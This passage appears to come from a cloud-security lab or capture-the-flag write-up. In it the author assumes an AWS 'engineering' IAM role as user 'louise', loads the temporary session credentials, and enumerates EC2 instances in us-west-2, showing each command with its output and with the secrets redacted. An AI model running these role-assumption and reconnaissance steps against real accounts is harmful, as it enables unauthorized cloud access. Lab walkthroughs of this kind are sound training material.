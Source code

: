 We remember having `engineering` role, which can be assumed by `bob` and `louise`. So let's assume it
```
└─$ aws sts assume-role --role-arn arn:aws:iam::583554811645:role/engineering --role-session-name louise-eng
{
    "Credentials": {
        "AccessKeyId": "ASIAYPXUTY362GOIVEEW",
        "SecretAccessKey": "<REDACTED>",
        "SessionToken": "<REDACTED>",
        "Expiration": "2025-08-30T18:40:24Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAYPXUTY366A64RGEM4:louise-eng",
        "Arn": "arn:aws:sts::583554811645:assumed-role/engineering/louise-eng"
    }
}

```

Now authenticate with `aws configure` and set the token with `aws configure set aws_session_token "<token>"`
```
└─$ aws sts get-caller-identity
{
    "UserId": "AROAYPXUTY366A64RGEM4:louise-eng",
    "Account": "583554811645",
    "Arn": "arn:aws:sts::583554811645:assumed-role/engineering/louise-eng"
}
```

There are no instances in `us-east-1` region, but we do remember that bucket was deployed in `us-west-2`. So if we list EC2 instances from that region, we have the results
```
└─$ aws ec2 describe-instances --region us-west-2
{
<SNIP>
                    "PrivateDnsName": "ip-10-1-20-24.us-west-2.compute.internal",
                    "PublicDnsName": "",
                    "StateTransitionReason": "",
                    "AmiLaunchIndex": 0,
                    "ProductCodes": [],
                    "InstanceType": "t2.micro",
                    "LaunchTime": "2025-08-30T14:08:11.000Z",
                    "Placement": {
                        "GroupName": "",
                        "Tenancy": "default",
                        "AvailabilityZone": "us-west-2a"
                    },
                    "Monitoring": {
                        "State": "disabled"
                    },
                    "SubnetId": "subnet-07deb96353b2e8071",
                    "VpcId": "vpc-0fd42c54bd9ad1795",
                    "PrivateIpAddress": "10.1.20.24"

<SNIP>

```
